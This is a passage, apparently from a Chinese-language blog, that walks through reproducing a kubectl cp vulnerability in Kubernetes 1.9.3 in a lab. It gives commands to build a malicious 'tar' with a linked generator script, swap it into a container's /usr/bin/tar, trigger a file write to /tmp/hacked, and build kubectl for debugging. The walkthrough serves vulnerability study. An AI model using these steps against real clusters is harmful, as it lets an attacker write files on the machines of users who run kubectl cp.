 ![](/assets/img/k8s_env12.png)
5. 创建测试[simple_pod](/assets/yaml/simple_pod.yaml)
```
kubectl taint nodes --all node-role.kubernetes.io/master-
kubectl apply -f simple_pod.yaml
```
6. 使用[eviltar_gen](/assets/py/eviltar_gen.py)生成恶意`tar`程序
```
python3 eviltar_gen.py > tar
```
7. 拷贝恶意`tar`到容器中
```
kubectl cp tar test:/root
kubectl exec test -- chmod +x /root/tar
kubectl exec test -- cp /usr/bin/tar /usr/bin/tar.bak
kubectl exec test -- cp /root/tar /usr/bin/
```
8. 执行`kubectl cp`，会生成`/tmp/hacked`文件
![](/assets/img/k8s_env13.png)
9. 编译`kubectl`
```
cd kubernetes-1.9.3
make WHAT=cmd/kubectl GOGCFLAGS="-N -l" GOLDFLAGS=""
```
10. 调试
![](/assets/img/k8s_env14.png)
